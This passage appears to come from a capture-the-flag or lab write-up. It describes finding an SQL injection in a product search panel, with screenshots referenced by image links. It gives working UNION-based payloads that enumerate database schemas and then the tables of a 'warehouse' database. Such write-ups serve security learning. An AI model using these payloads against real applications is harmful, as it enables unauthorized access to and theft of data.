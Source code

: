 - Playing around with the `search` panel resulted in successful `SQL` injection

![](./images/6.png)

- Let's find the number of columns
  - It's 6

![](./images/7.png)

- Dump the `databases`
  - `productName=' union select 1,schema_name,3,4,5,6 from information_schema.schemata-- -`

- Dump `warehouse` daatabase
  - `productName=' union select table_schema,table_name,3,4,5,6 from information_schema.tables where table_schema='warehouse'-- -`

![](./images/8.png)
